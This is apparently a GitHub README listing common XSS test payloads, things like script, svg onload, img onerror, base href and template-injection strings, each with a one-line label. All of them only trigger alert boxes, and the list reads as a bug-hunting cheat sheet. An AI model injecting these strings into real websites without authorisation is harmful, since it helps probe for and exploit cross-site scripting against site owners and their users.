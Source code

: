 <h1> 🚀Most Common Working Payloads </h1>
<h2> This is list of XSS Payloads that worked in most cases for me </h2>

``` "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
``` "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
``` <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
``` <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
``` </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
``` "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
``` {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
``` <BODY onload=alert(1)>``` - Body Payload </br>
``` <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
``` &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
``` <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```

<h2>by Kira Reys </h2>
<p> XSS is really common vulnerability nowadays on web. This was list of some Payloads that workod in most cases for me. ✨</p>
